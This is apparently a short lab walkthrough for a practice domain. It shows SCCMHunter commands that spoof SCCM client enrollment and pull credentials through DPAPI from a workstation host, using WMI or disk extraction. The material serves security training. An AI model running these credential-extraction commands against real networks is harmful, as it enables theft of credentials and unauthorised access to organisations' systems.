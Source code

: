 # 2 - Cred Lab Walkthrough
## Objective 1 <br> Use SCCMHunter's HTTP Module to Spoof Client Enrollment
### Step 1
Use SCCMHunter's HTTP module with the auto flag to initiate a client enrollment flow
```
python3 sccmhunter.py http -u <username> -p <password> -d ludus.domain -dc-ip <dc-ip> -auto
```
<div align="center">
<img src="./Screenshots/sccmhunter-http.png" width="800">
</div>

## Objective 2 <br> Use SCCMHunter's DPAPI Module to Extract Credentials From the WORKSTATION Host
### Step 1
Use SCCMHunter's DPAPI module to with your credentials to target the WORKSTATION host (10.x.10.11). Use the ***-wmi*** and ***-disk*** flags to change your method of extraction. 
```
python3 sccmhunter.py dpapi -u <username> -p <password> -target <10.x.10.11> -wmi
```
<div align="center">
<img src="./Screenshots/sccmhunter-dpapi-wmi.png" width="800">
</div>
<br>

